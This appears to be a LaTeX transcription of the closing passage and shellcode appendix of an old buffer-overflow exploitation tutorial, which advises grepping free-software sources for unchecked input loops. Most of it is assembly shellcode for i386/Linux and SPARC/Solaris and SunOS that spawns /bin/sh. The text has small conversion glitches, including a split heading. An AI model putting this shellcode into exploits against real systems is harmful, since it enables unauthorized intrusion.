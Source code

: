 \documentclass[10pt]{article}
\begin{document}
\begin{CJK}{UTF8}{bsmi}
getchar(). If there is no explicit checks for overflows in the while loop, such programs are easily exploited. To 

conclude, grep(1) is your friend. The sources for free operating systems and their utilities is readily available. 

This fact becomes quite interesting once you realize that many comercial operating s ystems utilities where 

derived from the same sources as the free ones. Use the source d00d.

\appendix
\appendixpage
\section{Shellcode for Different Operating}

\subsection{Systems/Architectures}


\begin{lstlisting}[caption=i386/Linux]
jmp    0x1f
popl   %esi
movl   %esi,0x8(%esi)
xorl   %eax,%eax
movb   %eax,0x7(%esi)
movl   %eax,0xc(%esi)
movb   $0xb,%al
movl   %esi,%ebx
leal   0x8(%esi),%ecx
leal   0xc(%esi),%edx
int    $0x80
xorl   %ebx,%ebx
movl   %ebx,%eax
inc    %eax
int    $0x80
call   -0x24
.string \"/bin/sh\"
\end{lstlisting}


\begin{lstlisting}[caption=SPARC/Solaris]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
ta      8
xor     %o7, %o7, %o0
mov     1, %g1
ta      8
\end{lstlisting}

\begin{lstlisting}[caption=SPARC/SunOS]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
mov     -0x1, %l5
ta      %l5 + 1
xor     %o7, %o7, %o0
mov     1, %g1
ta      %l5 + 1
\end{lstlisting}


\end{CJK}
\end{document}
